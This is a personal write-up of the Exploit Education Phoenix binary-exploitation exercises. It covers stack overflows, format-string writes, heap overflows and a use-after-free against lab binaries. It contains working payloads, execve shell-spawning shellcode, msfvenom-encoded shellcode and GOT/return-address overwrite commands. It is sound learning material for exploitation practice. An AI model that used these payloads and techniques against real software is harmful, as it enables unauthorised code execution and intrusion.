

# Binary exploitation challenges

## stack-zero

<https://exploit.education/phoenix/stack-zero/>

### Source code analysis

As per the analysis, struct's char member takes input from a gets() function
which can be overflowed to overwrite the value of `changeme` variable.

* the gets function is explicitly declared in the source because:
  * gets is deprecated in C99 and removed in C11.
  * including the stdio.h header file does not include the gets function because
    it is removed from the standard library.
  * it still works because the gets function is still available in the glibc
    library[^2].
* volatile means the compiler should not optimise (cache) the value of the
  variable. It should read the value of the variable from the memory everytime
  the variable is accessed.
* struct members are stored in the order they are declared[^1].
* The string (char buffer) is 64 bytes in memory. Send 65 bytes to corrupt the
  value of the int.

```bash
python3 -c "print('A'*65)" | ./stack-zero
```

## stack-one

* concept of endianness - send the value of variable in reverse byte order for
  little endian systems.
* network byte order - big endian. AMD and Intel are both little endian

 
```python
import sys
hex = "0x496c5962"
num = int(hex, 16)
num = num.to_bytes(length=4, byteorder='little')

payload = b"A"*64
payload = payload + num
sys.stdout.buffer.write(payload)

# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbYlI
```

using the payload in qemu

```bash
python3 -c "print('A'*64 + 'bYlI', end = '') | xargs -I {} ./stack-one {}
```


## stack-two

The attack has to be done through the environment variable.

`stack-two.py`:

```python
import sys
hex = "0x0d0a090a"
num = int(hex, 16)
num = num.to_bytes(length=4, byteorder='little')

payload = b"A"*64
payload = payload + num
sys.stdout.buffer.write(payload)
```

```bash
export ExploitEducation=$(python3 stack-two.py)
# easier way
ExploitEducation=$(python -c 'print("A"*64 + "\x0a\x09\x0a\x0d")') ./stack-two
```

## stack-three

As checked using objdump, compiling the same code on my system leads to
`complete_level()` function having different addresses.

It turns out we are using structs to do these exercises because struct's members
are always stored in order. From low to high memory addresses. So, even if the
stack is growing downwards, the struct members go from low to high memory. [^3]

You need to send binary data which cannot be encoded to ASCII by python's print
function so you need to use the `sys` module:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*64 + b"\x9d\x06\x40")' | stack-three
```

## stack-four

Used `objdump -t stack-four` to get the address of the `complete_level`
function which was `0x40061d` for this case.
Tried out different lengths of buffer to reach the `RET` address.

!!! tip
    GDB supports “run < my_file” to direct input from my_file into the program.

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*88 + b"\x1d\x06\x40")' | stack-four
```

## stack-five

Craft a shell code

1. shell code should not contain null bytes as string handling functions which
   take the input can terminate at null bytes. get and fgets don't terminate at
   null. They terminate at newline or EOF.
2. shell code should be compact.


payload = null bytes + shellcode + null bytes + saved rbp (becomes the new rsp)
+ return address

When looking for the return address, keep in mind that the pointer in rdi
register is updated by gets() function based on the number of bytes read.

!!! tip
    Try not to use the stack for shell code.

Jumping to an address not in the stack is more stable because there is a
difference in the environment between the debugger and the actual program.
The debugger loads environment variables which can alter the addresses in the
stack. Environment variables are located in the stack and heap so the sizes can
differ between different environments. [^4] [^5]
As per my debugging, even the environment between TMUX and plain terminal was
making a difference. TMUX introduces env variables.

One more thing to note is that the addresses also change depending on the way
the program is called.

`./stack-five` and `/home/user/stack-five` have different addresses due to
change in the size of argv[0] which will affect the stack.

The debugger usually uses the complete path when running the program so the
offsets you find in the debugger will go higher up in the stack which can lead
to illegal instructions as they have gone above your payload and not hitting the
nop sled.

!!! tip
    Use a NOP sled even before the shellcode due to environment differences.

To try and make the environment in the debugger and shell equal, use `unset env
LINES` and `unset env COLUMNS`. Also, use the complete path (to keep argv
similar) when running the binary in shell.

---

[Shellcode](https://shell-storm.org/shellcode/files/shellcode-909.html):

```asm
.intel_syntax noprefix

#execve("/bin/bash",{NULL},{NULL})

.text
.global _start
_start:
	mov rax, 0x68732f6e69622f
	push rax
	push rsp
	pop rdi
	xor eax, eax
	push rax
	mov al, 59
	push rsp
	pop rdx
	push rsp
	pop rsi
	syscall

# as -o sc.o sc.s
# objcopy -O binary -j .text sc.o sc.bin
# xxd -i -n sc sc.bin

# unsigned char sc[] = {
#   0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x50, 0x54,
#   0x5f, 0x31, 0xc0, 0x50, 0xb0, 0x3b, 0x54, 0x5a, 0x54, 0x5e, 0x0f, 0x05
# };
# unsigned int sc_len = 24;

# Fnknda<joao[at]fukuda[dot]sh>
```

Exploit payload (stack-five.py):

```python
import sys

with open('sc.bin', "rb") as file:
    shellcode = file.read()

payload = b''
payload += b"\x90"*16
payload += shellcode
nop_len = 128 - len(payload) + 8 #rbp length = 8
payload += b"\x90"*nop_len
ret_address = b"\x00\xe6\xff\xff\xff\x7f\x00\x00"
payload += ret_address

sys.stdout.buffer.write(payload)
```

The payload contains null bytes, but it is possible to pass null
bytes in stdin and even gets does not terminate at null bytes.

Exploit: `(python3 stack-five.py; cat ) | /home/user/stack-five`
Exploit environment: Works when I am on wsl and ssh into the machine with `ssh
user@127.0.0.1 -p 2222`
As checked it's not working on the qemu GUI.


**To make the exploit more stable:**

As checked in the debugger, the address of the buffer remains in rax register at
the end of the function call. So, if we can find the address of a `jmp rax`
instruction in the .text section then we can return to it to execute shellcode
reliably.

`objdump -d -j .text stack-five | grep -i 'jmp'`
Use ROPgadget for big or complex binaries and instructions.

Using this as the return address, the exploit worked in TMUX, shell, and qemu.

## stack-six

!!! tip
    Read the GNU C docs for understanding different C functions

Arrays and pointers in C are not the same thing. The name of the array decays
into a pointer when used in expressions, but arrays are fundamentally blocks of
memory with a fixed size, while pointers are variables that can store the
address of a memory location and can be reassigned to point elsewhere.

So sizeof() gives different results for arrays and pointers. The compiler knows
the difference between array and pointer and it replaces sizeof expressions with
the corresponding value. 

free() is used on pointers for dynamic memory only. When a pointer is returned
by malloc etc, it contains metadata about the size of the memory block in
addresses just before the actual pointer. malloc actually returns a bigger
buffer than what it is asked for. So free has to be called on a pointer in the
heap and not for a pointer in the stack.

* contol over who 
* buffer - 128
* what - 34
* max size of who - 127
* buffer = what + who
* ret to end of what to execute payload or find a register which contains the
* payload and find jmp <reg> instruction to ret to.

step 1: find offset for ret address in payload (fuzz from 127 to 93 in who)

```python
import sys

for i in range(93, 128):
    print("Offset: %d" % i)
    payload = "A" * i
    print(payload)
    os.environ["ExploitEducation"] = payload
    os.system("./stack-six")
    print("\n\n")
```

* was able to change a single byte of RBP
* as checked in gdb the last byte of the saved rbp gets overwritten
* when greet function is ending, there is no leave instruction, so cannot
  control rsp there.
* When main is ending `leave` will save the modified rbp to rsp, then pop rbp
  (rsp will decrement by 8) and then jmp rsp will happen
* Since I can control one byte, I can jmp back to my buffer in the stack.
* I can jump back to greet frame or in the main frame. Since who pointer points
  to my payload in the main frame I'll jump back to main frame where who was
  stored. who cannot have the payload as any null byte (nop) in who will lead to
  reduction of its length as a string and then the whole payload will not be
  copied to the buffer as per the source code.


* So we'll have the payload as a argv parameter and then I'll change the last
  byte of rbp to set rsp to the first parameter passed as argv which will be the
  payload with nop sled.
* The difference between rsp and argv value is 88 bytes. One byte freedom allows
  me 256 memoery address jump max. So make rbp last byte as close to 00 to allow
  more margin of error outside debugger. Introduce random env variables to push
  the stack lower.
* It's not possible to pass null bytes in argv as that is read as a string. Make
  sure shellcode doesn't contain null bytes.

```python
with open("sc.bin", "rb") as file:
    shellcode = file.read()

# payload length can be 128 but only 127 will be put if buffer

payload = b"\x90" * 16 + shellcode
payload += b"\x90" * (48 - len(payload))

env_payload = b"A"*126 + b"\xef" + payload

sys.stdout.buffer.write(env_payload)
```

* You cannot put null bytes in env variables as env variables are passed to
  execve just like argv is passed to main.
* nops are not null bytes. 

63 byte payload generated using `msfvenom -p linux/x64/exec -b "\x00" -f python`

```python
buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xfd\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\xc1\x5b\x2e\xba\xe3"
buf += b"\xc8\x50\x4d\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x89\xe3\x01\xd8\x8a\xa6\x7f\x3e\xa9"
buf += b"\x5b\xb7\xea\xb7\x97\x02\x13\xab\x60\x76\xb5\xe6"
buf += b"\xc8\x50\x4d"
```

added 127 bytes of shellcode with nop sled using `msfvenom -p linux/x64/exec -b
"\x00" -f python -n 126 --pad-nops`. You don't see `\x90`s because
<https://security.stackexchange.com/questions/83997/how-does-the-nop-sled-work-with-msfvenom>

```python
buf =  b""
buf += b"\xf9\x91\x90\x9e\xf8\xfc\xf9\x92\xf8\xf8\x93\x9b"
buf += b"\x91\xf9\x93\x90\x99\xf9\x92\x92\xfd\xf8\x91\x9b"
buf += b"\x9e\x9b\xfd\xfc\xf9\x99\x98\xfc\x98\x9e\x92\x90"
buf += b"\xfc\x9e\x93\xf9\x9b\xfc\x91\x9b\x9f\x98\x99\x90"
buf += b"\x9f\xf8\x9f\x93\xf8\xf9\x93\x9f\x9e\x98\xf9\x9f"
buf += b"\x93\x98\xf8\x48\x31\xc9\x48\x81\xe9\xfd\xff\xff"
buf += b"\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\xca\x95"
buf += b"\x0c\x6a\x4b\x39\xb8\xd1\x48\x31\x58\x27\x48\x2d"
buf += b"\xf8\xff\xff\xff\xe2\xf4\x82\x2d\x23\x08\x22\x57"
buf += b"\x97\xa2\xa2\x95\x95\x3a\x1f\x66\xea\x8f\xa0\xae"
buf += b"\x54\x65\x4e\x39\xb8\xd1"
```

* add the byte that I control to jump to who to execute shellcode
* decided to jump to who pointer in main's frame. To do this: I first entered a
  random byte and then checked the stack in gdb to at which memory address in
  the stack the who pointer exists. 
* An issue I found was that the who offset was way higher `0x00007fffffffe6xx`
  in the stack which did not match with where the greet's frame was
  `0x00007fffffffe5xx`. To change this I added a padding in my environment to
  push the stackup so that who would also have `e5xx`.
* export PAD=$(python3 -c 'print("Z"*64)')
* In main there is a leave intruction being called which loads the rbp value I
  control into rsp and then pops rbp so rsp increments(stack grows opposite) by
  8 before ret is executed. Saw that who pointer address is `0x00007fffffffe5b8`
  so I have to send `\xb0`.

```python
buf += b"\xb0"
sys.stdout.buffer.write(buf)
```

In retrospect the above approach was not reliable because I had to jump to the
exact address of who pointer. Luckily everything matched up when running the
binary without gdb using `ExploitEducation=$(python3 stack-six.py)
/home/user/stack-six`. Note how to match environment between gef and shell in
stack-five solution. There was no point of the NOP sled too in this case. My env
was still different from the one in the debugger. Luckily the exploit still
worked. I had missed setting `set env _ /home/user/stack-six` in debugger.
Otherwise as checked in the debugger the env variable is set as
`_=/usr/local/bin/gdb`. There was a difference of two bytes but somehow my
exploit still worked. Maybe alignment saved me.

It would have been better to jump to the buffer in greet function since I could
have put the nop sled to use. Also you could jump to environment variable
directly too as it is in the stack.


---

## format-zero

```bash
python3 -c 'print(b"%p"*4)' | ./format-zero
```

!!! note
    For printf assume that all the arguments are on the stack even if it is
    x86-64 <https://news.ycombinator.com/item?id=7682398>,
    <https://blog.nelhage.com/2010/10/amd64-and-va_arg/>
    printf is a variadic function so it uses the va_arg macro to access the args
    passed to it. va_args loads the arguments in the registers onto the stack as
    well in register save area. So, the arguments are on the stack. This is a
    very complicated topic. Use the references to understand it better.
    

## format-one

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"%32x" + b"\x6c\x4f\x76\x45")' | ./format-one
```

!!! note
    Don't use python print as it encodes the bytes before printing. The encoding
    can result in extra characters being printed.

## format-two

### x86-64

Found the offset as below:
```bash
./format-two $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*8+b".%p"*12)')
# Welcome to phoenix/format-two, brought to you by https://exploit.education
# AAAAAAAA.0.0x4.0.0x7fffffffe56c.0x7fffffffe4ff.0x7fffffffe540.0x7fffffffe540.0x7fffffffe640.0x400705.0x7fffffffe698.0x200400368.0x4141414141414141Better luck next time!
```

I tried exploiting for amd64 but it was too difficult. The address of changeme
is `0x600af0`

```bash
objdump -t format-two | grep changeme
# 0000000000600af0 g     O .bss   0000000000000004 changeme
```

The address contains a newline character which will terminate the string.

**An approach I tried:**

Created custom shellcode to inject into `buf`

```assembly
.intel_syntax noprefix

.text
.globl _start
_start:
    # Step 1: Move the random value (e.g., 0xdeadbeef) to the address 0x600af0
    mov rax, 0x600af0        # Load the target address (0x600af0) into rax
    mov rbx, 0xdeadbeef      # Load the random value (0xdeadbeef) into rbx
    mov [rax], rbx           # Store rbx (0xdeadbeef) at the memory address 0x600af0

    # Step 2: Jump to the target address 0x0000000000400705
    mov rax, 0x0000000000400705 # Load the address to jump to (0x400705) into rax
    jmp rax                   # Jump to 0x400705
```

To get the shellcode from the above assembly code:

```bash
as -o sc.o sc.s
objcopy -O binary -j .text sc.o sc.bin
```

To feed the shellcode into `buf` it needs to be encoded using `msfvenom` to
prevent bad characters from terminating the string.

```bash
msfvenom -b "\x00\x0a\x20" -a x86_64 --platform linux -n 256 --pad-nops -e x64/xor  < sc.bin
```

```python title="payload.py"
import sys

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xfc\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x6f\x36\xce\xeb\x7b"
buf += b"\x76\x59\xf1\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x27\xf1\x0e\x1b\x71\x16\x59\xb9\xd4"
buf += b"\xd9\x70\x46\xa5\x76\x59\xf1\x6f\x7e\x47\xf3\x33"
buf += b"\xb1\x99\xf4\x68\x76\xce\x14\x9b\x76\x59\xf1"

sys.stdout.buffer.write(buf)
```

```bash
./format-two $(python3 payload.py)
```


In gdb I was able to change the `ret` address in `bounce` to jump to `buf` and
then execute the shellcode. 

To do this outside gdb I would have to change the `ret` address using format
string. But `format-two` is not working with position based format specifiers
eg. `%12$n`. Older versions of C std like C99 did not support this feature (see
manpages). This could be the reason why it's not working. Apart from this, I
tried to print as much of the stack as I could. The payload itself was taking so
much of the buffer space to read the stack up to a `ret` address that I could
overwrite. Even if I found a `ret` address, overwriting it would require
specific number of characters beforehand to write the desired `ret` address. A
single 8 byte address would require multiple iterations of using `%n` to write
the address. This is not possible as `buf` is 256 bytes long and positional
arguments are not working for this binary.

```bash
user@phoenix-amd64:~$ /home/user/format-two $(python3 -c 'import sys; sys.stdout.buffer.write(b"%p."*80)')              
# Welcome to phoenix/format-two, brought to you by https://exploit.education
# 0.0x10.0x7fffffffe7d1.0x101010101010101.0x7fffffffe41f.0x7fffffffe460.0x7ffff
# fffe460.0x7fffffffe560.0x400705.0x7fffffffe5b8.0x200400368.0x70252e70252e7025
# .0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.
# 0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.
# 0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.
# 0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.
# 0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.
# 0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.
# 0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.
# 0x2e70252e70252e70.0.0.0x2.0x7ffff7d8fd62.0.0x7fffffffe5b0.0.0x7ffff7ffdbc8.
# 0x400000100003e00.0x400539.0.0x400516.0x2.0x7fffffffe7bb.0x7fffffffe7d1.0.0x7fffffffe8c2.0x7fffffffee7e.0x7fffffffeea9.0x7fffffffeeb6.0x7fffffffeec0.0x7fffffffeecf.0x7fffffffeedf.0x7fffffffeefc.0x7fffffffef1e.0x7fffffffef31.0x7fffffffef45.0x7fffffffef5a.0x7fffffffef6a.0x7fffffffef77.0x7fffffffef7f.0x7fffffffef8c.0x7fffffffefca.0.0x21.0x7ffff7ff8000.0x10.0x78bfbfd.0x6.Better luck next time!
```

### x86

get offset
```bash
./format-two $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*4+b"%p."*12)')
# Welcome to phoenix/format-two, brought to you by https://exploit.education
# AAAA0xffffd8ab.0x100.0.0xf7f84b67.0xffffd710.0xffffd6f8.0x80485a0.0xffffd5f0.0xffffd8ab.0x100.0x3e8.0x41414141.Better luck next time!
```

get address of `changeme` variable
```bash
objdump -t format-two | grep changeme
# 08049868 g     O .bss   00000004 changeme
```

Write arbitrary value to `changeme` variable
```bash
./format-two $(python3 -c 'import sys; import pwn; sys.stdout.buffer.write(pwn.p32(0x08049868)+b"% p."*12)')
# Welcome to phoenix/format-two, brought to you by https://exploit.education
# 0xffffd8ab.0x100.0.0xf7f84b67.0xffffd710.0xffffd6f8.0x80485a0.0xffffd5f0.0xffffd8ab.0x100.0x3e8.0x8049868.Better luck next time!

./format-two $(python3 -c 'import sys; import pwn; sys.stdout.buffer.write(pwn.p32(0x08049868)+b"%p."*11+b"%n")')
# Welcome to phoenix/format-two, brought to you by https://exploit.education
# 0xffffd8ac.0x100.0.0xf7f84b67.0xffffd710.0xffffd6f8.0x80485a0.0xffffd5f0.0xffffd8ac.0x100.0x3e8.Well done, the 'changeme' variable has been changed correctly!
```

## format-three

### x86-64

```bash
user@phoenix-amd64:~$ objdump -t format-three | grep changeme
# 0000000000600a90 g     O .bss   0000000000000004 changeme
```

Has newline so difficult to exploit.

### x86

0x64457845 -> value to set for `changeme` variable
address of `changeme` variable: 0x08049844 (`objdump -t format-three | grep
changeme`)
offset for start of buffer is 12.

```bash
python3 -c 'import sys; import pwn; sys.stdout.buffer.write(pwn.p32(0x08049844)+b"A"*(0x64457845-0
x1c)+b"%p"*11+b"%n")' | ./format-three
# Welcome to phoenix/format-three, brought to you by https://exploit.education
# Traceback (most recent call last):
#   File "<string>", line 1, in <module>
# MemoryError
```

The string length is too long. Even if python was able to handle it, the buffer
size is not so large

---

Need to break the 4 byte value into 2 parts and write them separately.
<https://book.hacktricks.xyz/binary-exploitation/format-strings#arbitrary-write>

HOB -> 0x7845
LOB -> 0x6445

HOB > LOB
[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]

address = 0x08049844
offset = 12

```bash
python3 -c 'import sys; import pwn; sys.stdout.buffer.write(pwn.p32(0x08049844+2)+pwn.p32(0x08049844)+b"%.25661x%12\$hn%.5120x%13\$hn")' | ./format-three
```

For this compiled binary `format-three` the position based format specifiers are
not working. Neither is the `%.<number>x` format specifier working.

---

I'll try writing the value to the address byte by byte.

Exploit below:

```python title="format-three.py"
--8<-- "./res/misc/format-three.py"
```

## format-four

read does not stop at any byte except size
position specifiers not working
offset is at 12

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"%p"*12)' | ./format-four
# Welcome to phoenix/format-four, brought to you by https://exploit.education
# 0x7ffff7ffdc0c0x7ffff7ffb3000x7ffff7dc26170000x7fffffffd6800x7fffffffe6800x4006b50x7fffffffe6d80x1000000000x7025702570257025u
```

### x86_64

ret from printf -> 0x00007fffffffd628 (overwrite to 0x400644)

The address contains null bytes. Try to put the address at the end to avoid the
null bytes

It is difficult. Solving for x86 for now.

### x86

ret from printf to congratulations

overwrite ret address on stack from going back to bounce from printf to
congratulations (0x08048503)

addr to overwrite: 0xffffc6cc (as checked in gdb)


```py title="format-four.py"
--8<-- "./res/misc/format-four.py"
```

surprisingly the same address worked outside gdb too.

final exploit:

```bash
python3 format-four.py  | ./format-four
# Welcome to phoenix/format-four, brought to you by https://exploit.education
# 0000xf7f81cf70xf7ffb0000xffffd7280x804857d0xffffc7200xffffc7200xfff0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAWell done, you're redirected code execution!
```

## heap-zero

heap overflow is not the same as stack overflow. The objects are not contiguous.
There is metadata like size of allocation and all stored in the heap around the
buffers which can make finding the exact offset unreliable.

### x86-64

```bash
objdump -t heap-zero | grep winner
# 0000000000400ace g     F .text  0000000000000011 nowinner
# 0000000000400abd g     F .text  0000000000000011 winner
```

```bash
./heap-zero $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*80 + b"\xbd")')
# Welcome to phoenix/heap-zero, brought to you by https://exploit.education
# data is at 0x7ffff7ef6010, fp is at 0x7ffff7ef6060, will be calling 0x4000bd
# Segmentation fault
```

strcpy copies the null byte from the source string when copying(check manpage:
`man 3 strcpy` so you need to
overwrite the whole address even if the addresses had common MSBs. (400abd and
400ace)

Since winner has `0x0a` byte it will terminate the string. Tough for this arch.

### x86

```bash
objdump -t heap-zero | grep winner
# 0804884e g     F .text  00000019 nowinner
# 08048835 g     F .text  00000019 winner
```

```bash
./heap-zero $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\x35\x88\x04\x08")')
# Welcome to phoenix/heap-zero, brought to you by https://exploit.education
# data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x8048835
# Congratulations, you have passed this level
```

## heap-one

**vulnerability**

i1 has heap overflow vulnerability because of strcpy using which you can
overwrite the pointer to name for i2. Consequently, the strcpy in i2 can
overwrite 8 bytes to whatever address we want.

**exploit**

get address of winner function

### x86-64

```bash
objdump -t heap-one | grep winner
# 0000000000400af3 g     F .text  0000000000000023 winner
```

contains newline so cannot pass through argv. I will solve for x86.

### x86

```bash
objdump -t heap-one | grep winner
# 0804889a g     F .text  00000027 winner
```

get rsp/esp address from gdb at ret instruction of main function and overwrite
it with the address of winner function. -> need to change exact address on stack

OR

there is a puts being called after strcpy whose GOT address can be overwritten
to point to winner function. -> more reliable



Don't know why but the first printf in the source code is corresponding to a
puts call as can be seen in gdb but the second printf is corresponding to a
printf call. So, it's possible to overwrite puts without affecting the printf in
the winner function.


Turns out the first printf is just optimised out by the compiler because it is
just printing a constant string. Whereas the second printf has actual format
specifiers which cannot be handled by puts.

Get GOT address of puts

```bash
objdump -R heap-one | grep puts
# 0804c140 R_386_JUMP_SLOT   puts
```

find the offset where to overwrite by adding As to the buffer and check in gdb


**final exploit:**

```bash
./heap-one $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20+b"\x40\xc1\x04\x08")') $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x9a\x88\x04\x08")')
# Congratulations, you've completed this level @ 1729176931 seconds past the Epoch
```

## heap-two

**vulnerability**

```c
  while (1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if (fgets(line, sizeof(line), stdin) == NULL) break;

    if (strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(struct auth));
      memset(auth, 0, sizeof(struct auth));
      if (strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if (strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if (strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if (strncmp(line, "login", 5) == 0) {
      if (auth && auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
```

Note that there is use after free for pointer to auth. So if you allocate that
area again you can overwrite auth to have some value for auth->auth.

```bash
./heap-two
# Welcome to phoenix/heap-two, brought to you by https://exploit.education
# [ auth = 0, service = 0 ]
# auth
# [ auth = 0x600e40, service = 0 ]
# reset
# [ auth = 0x600e40, service = 0 ]
# servic
# [ auth = 0x600e40, service = 0x600e40 ]
# login
# you have logged in already!
# [ auth = 0x600e40, service = 0x600e40 ]
```

## heap-three

**vulnerability**


```bash
objdump -t /opt/phoenix/amd64/heap-three | grep winner
# 0000000000400a3d g     F .text  0000000000000023 winner
```

x86-64 binary contains a newline in the address of winner function. So, I'll
solve for x86.

address of winner function:

```bash
objdump -t heap-three | grep winner
# 080487d5 g     F .text  00000027 winner
```


[^1]: <https://stackoverflow.com/questions/2748995/struct-memory-layout-in-c>
[^2]: <https://stackoverflow.com/questions/30619780/why-can-i-use-gets-in-gcc-std-c11>
[^3]: <https://stackoverflow.com/questions/1102049/order-of-local-variable-allocation-on-the-stack>
[^4]: <https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html>
[^5]: <https://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code>
